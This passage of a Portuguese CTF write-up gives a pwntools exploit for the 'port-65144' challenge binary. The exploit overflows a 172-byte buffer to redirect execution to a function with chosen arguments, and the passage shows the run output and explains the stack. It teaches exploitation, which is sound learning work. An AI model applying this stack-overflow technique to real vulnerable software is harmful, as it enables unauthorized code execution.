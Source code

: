 ```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

f1 = pwn.p32(0x8049256)      # function address
f1arg1 = pwn.p32(0x9c)       # 1st argument
f1arg2 = pwn.p32(300)        # 2nd argument

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + function address + 'JUNK' + first argument + second argument
"""
payload = buff.encode() \
    + f1 \
    + 'JUNK'.encode() \
    + f1arg1 \
    + f1arg2

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```

Ok, este exploit vai nos devolver:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 976
=========================
what the process returned
Enter your buffer: gotcha func1

```

Estou usando a <a href="https://pypi.org/project/pwntools/" target="_blank">bibliotéca pwn</a> com python3.

Explicando o exploit, estou apenas enviando 172 bytes do caractere "A", substituindo o `EPI` pelo `f1` (endereço da função), após o `EPI` temos o `EBP` que para nós não é importante agora, então coloco `JUNK`, e temos nossas variáveis locais, que em ordem temos os valores `0x9c` e `300`.
